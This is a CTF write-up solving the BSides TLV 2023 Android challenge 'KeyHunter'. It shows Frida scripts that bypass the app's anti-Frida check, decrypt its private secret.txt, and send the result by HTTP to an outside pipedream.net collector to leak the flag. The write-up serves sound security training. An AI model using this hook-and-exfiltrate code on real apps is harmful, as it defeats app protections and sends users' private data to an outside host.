





# BSides TLV CTF 2023 - [https://ctf23.bsidestlv.com/](https://ctf23.bsidestlv.com/)
Mobile, 464 Points

## Description



Attached file [app-release.apk](./app-release.apk) 

## KeyHunter

Let's install the application from the attached file on the [Genymotion](https://www.genymotion.com/) Android emulator:



The application prompts the user for input and provides options to encrypt or decrypt the user input.

By inspecting the APK file using [Jadx](https://github.com/skylot/jadx), we can observe the following code in the `MainActivity`:



As observed in the `invoke2` method, the application performs encryption on the user input and stores it in a file named `secret.txt` within the application folder on the disk:
```java
public final void invoke2() {
	String m4150invoke$lambda1;
	m4150invoke$lambda1 = MainActivity$onCreate$1.AnonymousClass1.m4150invoke$lambda1(this.$messageToEncrypt$delegate);
	byte[] encodeToByteArray = StringsKt.encodeToByteArray(m4150invoke$lambda1);
	File file = new File(this.this$0.getFilesDir(), "secret.txt");
	if (!file.exists()) {
		file.createNewFile();
	}
	this.$messageToDecrypt$delegate.setValue(StringsKt.decodeToString(this.$cryptoManager.encrypt(encodeToByteArray, new FileOutputStream(file))));
}
```

Let's encrypt the message `evyatar9` to generate the `secret.txt` file:



In the `invoke2` method, we can observe a call to `this.$cryptoManager.encrypt`, which returns the encrypted message:
```java
public final byte[] encrypt(byte[] bytes, OutputStream outputStream) {
        Intrinsics.checkNotNullParameter(bytes, "bytes");
        Intrinsics.checkNotNullParameter(outputStream, "outputStream");
        Cipher createCipher = createCipher();
        createCipher.init(1, getKey());
        byte[] encryptedBytes = createCipher.doFinal(bytes);
        OutputStream outputStream2 = outputStream;
        try {
            OutputStream outputStream3 = outputStream2;
            outputStream3.write(createCipher.getIV());
            outputStream3.write(encryptedBytes.length);
            outputStream3.write(encryptedBytes);
            Unit unit = Unit.INSTANCE;
            CloseableKt.closeFinally(outputStream2, null);
            Intrinsics.checkNotNullExpressionValue(encryptedBytes, "encryptedBytes");
            return encryptedBytes;
        } finally {
        }
    }
```

By observing the class methods, we can identify the presence of the method `getKey`:
```java
private final SecretKey getKey() {
	KeyStore.Entry entry = this.keyStore.getEntry("secret", null);
	KeyStore.SecretKeyEntry secretKeyEntry = entry instanceof KeyStore.SecretKeyEntry ? (KeyStore.SecretKeyEntry) entry : null;
	SecretKey secretKey = secretKeyEntry != null ? secretKeyEntry.getSecretKey() : null;
	return secretKey == null ? createKey() : secretKey;
}
```

We noticed that the `getKey` method makes a call to `this.keyStore.getEntry("secret", null);`. To retrieve this key from `keyStore`, we need to execute the code within the application context

To accomplish this task, we can utilize [Frida](https://frida.re/), a powerful tool that offers the capability to either spawn a new process using the provided app identifier or attach to an existing running process. Frida's versatile functionality enables us to achieve our objective seamlessly.

Frida injects JavaScript code into a target process by loading its instrumentation engine into the process, compiling the JavaScript code into machine code, and writing it into a designated memory section. This allows the injected JavaScript code to run within the context of the target process and interact with its behavior and data.

First, we need to download the [frida-server](https://github.com/frida/frida/releases). It is important to choose the specific version that corresponds to our Android emulator. For this purpose, I have selected the following version: [frida-server-16.1.1-android-x86_64.xz](https://github.com/frida/frida/releases/download/16.1.1/frida-server-16.1.1-android-x86_64.xz).

Next, we should proceed to upload and execute the `frida-server` on the Android emulator:
```console
┌─[evyatar9@parrot]─[/ctf/2023_bsidestlv/mobile/KeyHunter]
└──╼ $ adb push frida-server /data/local/tmp/
frida-server: 1 file pushed. 27.2 MB/s (42925716 bytes in 1.506s)
┌─[evyatar9@parrot]─[/ctf/2023_bsidestlv/mobile/KeyHunter]
└──╼ $ adb shell
genymotion:/ # cd /data/local/tmp/
genymotion:/data/local/tmp # ls -ltra
genymotion:/data/local/tmp/dd # ls -ltra
total 41944
-rw-rw-rw- 1 root  root  42925716 2021-02-16 22:35 frida-server
drwxrwx--x 4 shell shell     4096 2023-07-03 19:51 ..
drwxrwxrwx 2 root  root      4096 2023-07-03 19:51 .
genymotion:/data/local/tmp/dd # chmod +x frida-server
genymotion:/data/local/tmp/dd # ./frida-server &
```

Next, we must compose the JavaScript code to implement our desired logic.

By attaching to the process using Frida, our next step is to locate an instance of the interesting class. Once we have obtained the instance, we can proceed to invoke class methods or implement our desired logic within the class.

Our objective is to read the `secret.txt` file from the disk and decrypt its contents. To accomplish this, we will call the decrypt method from the cryptoManager class:
```java
public final byte[] decrypt(InputStream inputStream) {
	Intrinsics.checkNotNullParameter(inputStream, "inputStream");
	AppIntegrityChecker.Companion.checkIntegrity();
	InputStream inputStream2 = inputStream;
	try {
		InputStream inputStream3 = inputStream2;
		byte[] bArr = new byte[16];
		inputStream3.read(bArr);
		byte[] bArr2 = new byte[inputStream3.read()];
		inputStream3.read(bArr2);
		Cipher createCipher = createCipher();
		createCipher.init(2, getKey(), new IvParameterSpec(bArr));
		byte[] doFinal = createCipher.doFinal(bArr2);
		CloseableKt.closeFinally(inputStream2, null);
		Intrinsics.checkNotNullExpressionValue(doFinal, "inputStream.use {\n      …encryptedBytes)\n        }");
		return doFinal;
	} finally {
	}
}
```

Based on the functionality of the `decrypt` method, our JavaScript code should be as follows:
```JavaScript
Java.perform(function() {

  Java.enumerateLoadedClasses({
    onMatch: function(className) {
      if (className === "com.plcoding.androidcrypto.CryptoManager") {
        Java.choose(className, {
          onMatch: function(instance) {
			
			console.log("Found an instance of CryptoManager");
			console.log("Creating FileInputStream with /data/data/com.plcoding.androidcrypto/files/secret.txt");
            var File = Java.use("java.io.File");
            var FileInputStream = Java.use("java.io.FileInputStream");

            var filePath = "/data/data/com.plcoding.androidcrypto/files/secret.txt";
            var file = Java.cast(File.$new(filePath), File);
            var fileInputStream = FileInputStream.$new(file);
			
			console.log("Calling to decrypt...");
            var flagByteArray = Java.array('byte', instance.decrypt(fileInputStream));  // Convert to Java byte array
			var str = String.fromCharCode.apply(null, flagByteArray);
			console.log("Flag: " + str);
          },
          onComplete: function() {
          }
        });
      }
    },
    onComplete: function() {
    }
  });

});
```

As observed, we have successfully located an instance of `com.plcoding.androidcrypto.CryptoManager`. With this instance, we proceed to create a `FileInputStream` using the path of the `secret.txt` file on the disk. Subsequently, we invoke the decrypt method.

To execute the script, we need to determine the process ID of the running application on the Android emulator. Prior to that, we must install [frida-tools](https://frida.re/docs/installation/):
```console
┌─[evyatar9@parrot]─[/ctf/2023_bsidestlv/mobile/KeyHunter]
└──╼ $ frida-ps -U -a
 PID  Name               Identifier
4  -----------------  --------------------------
4290  AndroidCrypto      com.plcoding.androidcrypto
4076  Google Play Store  com.android.vending
3113  Phone              com.android.dialer
```

With the PID `4290` at our disposal, we can now execute the script using the Frida attach command:
```console
┌─[evyatar9@parrot]─[/ctf/2023_bsidestlv/mobile/KeyHunter]
└──╼ $ frida -U -p 4290 -l solve.js
     ____
    / _  |   Frida 16.1.1 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Phone (id=192.168.53.124:5555)
Attaching...
Found an instance of CryptoManager
Creating FileInputStream with /data/data/com.plcoding.androidcrypto/files/secret.txt
Calling to decrypt...
Error: java.lang.SecurityException: Frida hooking detected. App integrity compromised.
    at <anonymous> (frida/node_modules/frida-java-bridge/lib/env.js:124)
    at value (frida/node_modules/frida-java-bridge/lib/class-factory.js:1064)
    at e (frida/node_modules/frida-java-bridge/lib/class-factory.js:585)
    at apply (native)
    at value (frida/node_modules/frida-java-bridge/lib/class-factory.js:969)
    at e (frida/node_modules/frida-java-bridge/lib/class-factory.js:552)
    at onMatch (/ctf/2023_bsidestlv/mobile/KeyHunter/solve.py:27)
    at _chooseObjectsArtLegacy (frida/node_modules/frida-java-bridge/lib/class-factory.js:322)
    at <anonymous> (frida/node_modules/frida-java-bridge/lib/class-factory.js:249)
    at kt (frida/node_modules/frida-java-bridge/lib/android.js:586)
[Phone::PID::4290 ]->
```

Upon investigation, we discovered that the application has implemented an anti-Frida hook mechanism. By searching for the string `Frida hooking detected. App integrity compromised.`, we located the corresponding method within the class `com.plcoding.androidcrypto.AppIntegrityChecker$Companion`:
```java
private final boolean isFridaHooked() {
	BufferedReader bufferedReader;
	String readLine;
	File file = new File("/proc/self/maps");
	if (file.exists()) {
		try {
			bufferedReader = new BufferedReader(new InputStreamReader(new FileInputStream(file)));
		} catch (Exception unused) {
		}
		do {
			readLine = bufferedReader.readLine();
			if (readLine != null) {
				Intrinsics.checkNotNull(readLine);
			} else {
				bufferedReader.close();
				return false;
			}
		} while (!StringsKt.contains$default((CharSequence) readLine, (CharSequence) "frida", false, 2, (Object) null));
		return true;
	}
	return false;
}
```

To bypass this mechanism, we can override the logic of the `isFridaHooked` method with the following implementation [./solve.js](./solve.js):
```javascript
/* 
   BSidesTLV CTF 2023
   Mobile - KeyHunter solve by evyatar9

   $ frida -U -p <PID> -l solve.js
*/
Java.perform(function() {

   var AppIntegrityChecker = Java.use("com.plcoding.androidcrypto.AppIntegrityChecker$Companion");
   AppIntegrityChecker.isFridaHooked.overload().implementation = function() {
		console.log("Custom implementation of isFridaHooked method - return false");
		return false;
  };
	
  Java.enumerateLoadedClasses({
    onMatch: function(className) {
      if (className === "com.plcoding.androidcrypto.CryptoManager") {
        Java.choose(className, {
          onMatch: function(instance) {
			
				console.log("Found an instance of CryptoManager");
				console.log("Creating FileInputStream with /data/data/com.plcoding.androidcrypto/files/secret.txt");
				var File = Java.use("java.io.File");
				var FileInputStream = Java.use("java.io.FileInputStream");

				var filePath = "/data/data/com.plcoding.androidcrypto/files/secret.txt";
				var file = Java.cast(File.$new(filePath), File);
				var fileInputStream = FileInputStream.$new(file);
				
				console.log("Calling to decrypt...");
				var flagByteArray = Java.array('byte', instance.decrypt(fileInputStream));  // Convert to Java byte array
				var str = String.fromCharCode.apply(null, flagByteArray);
				console.log("Flag: " + str);
          },
          onComplete: function() {
          }
        });
      }
    },
    onComplete: function() {
    }
  });

});
```

Having obtained the instance of the `com.plcoding.androidcrypto.AppIntegrityChecker$Companion` class, we proceeded to implement our own version of the `isFridaHooked` method, ensuring it returns `false`.

Run it again [./solve.js](./solve.js):
```console
┌─[evyatar9@parrot]─[/ctf/2023_bsidestlv/mobile/KeyHunter]
└──╼ $ frida -U -p 4290 -l solve.js
     ____
    / _  |   Frida 16.1.1 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Phone (id=192.168.53.124:5555)
Attaching...
com.plcoding.androidcrypto.AppIntegrityChecker$Companion
Found an instance of CryptoManager
Creating FileInputStream with /data/data/com.plcoding.androidcrypto/files/secret.txt
Calling to decrypt...
Custom implementation of isFridaHooked method - return false
Flag: evyatar9
[Phone::PID::4290 ]->
```

As a result, we successfully obtained the decrypted bytes of the `secret.txt` file, which are `evyatar9`.

The next step is to upload our script to the URL mentioned in the challenge description:



After uploading the script, we don't see the output. To leak the flag, we can send it over HTTP using the following additional code [./solve.js](./solve.js):
```JavaScript
/* 
   BSidesTLV CTF 2023
   Mobile - KeyHunter solve by evyatar9

   $ frida -U -p <PID> -l solve.js
*/
Java.perform(function() {
   
   var AppIntegrityChecker = Java.use("com.plcoding.androidcrypto.AppIntegrityChecker$Companion");
   AppIntegrityChecker.isFridaHooked.overload().implementation = function() {
		console.log("Custom implementation of isFridaHooked method - return false");
		return false;
   };
   
  Java.enumerateLoadedClasses({
    onMatch: function(className) {
      if (className === "com.plcoding.androidcrypto.CryptoManager") {
        Java.choose(className, {
          onMatch: function(instance) {
			
			console.log("Found an instance of CryptoManager");
			console.log("Creating FileInputStream with /data/data/com.plcoding.androidcrypto/files/secret.txt");
			var File = Java.use("java.io.File");
			var FileInputStream = Java.use("java.io.FileInputStream");

			var filePath = "/data/data/com.plcoding.androidcrypto/files/secret.txt";
			var file = Java.cast(File.$new(filePath), File);
			var fileInputStream = FileInputStream.$new(file);
			
			console.log("Calling to decrypt...");
			var flagByteArray = Java.array('byte', instance.decrypt(fileInputStream));  // Convert to Java byte array
			var str = String.fromCharCode.apply(null, flagByteArray);
			console.log("Flag: " + str);
			
			var URL = Java.use('java.net.URL');
			var BufferedReader = Java.use('java.io.BufferedReader');
			var InputStreamReader = Java.use('java.io.InputStreamReader');
			var HttpURLConnection = Java.use('java.net.HttpURLConnection');

			// Define the URL to send the GET request
			var url = "https://eofkllb4ccony1x.m.pipedream.net/" + str;
			console.log("Sending " + url);
			// Create a new URL object
			var urlObject = URL.$new(url);

			// Open a connection to the URL
			var connection = urlObject.openConnection();

			// Cast the connection to HttpURLConnection
			var httpConnection = Java.cast(connection, HttpURLConnection);

			// Set the request method to GET
			httpConnection.setRequestMethod('GET');

			// Send the request and retrieve the response
			var responseCode = httpConnection.getResponseCode();

			console.log("Done " + responseCode);
          },
          onComplete: function() {
          }
        });
      }
    },
    onComplete: function() {
    }
  });

});
```

We add an HTTP request to our URL with the flag, and we receive the following response:


And we obtain the flag `BSidesTLV2023{Fr1da_1nstrum3nt1ng_Peopl3}`.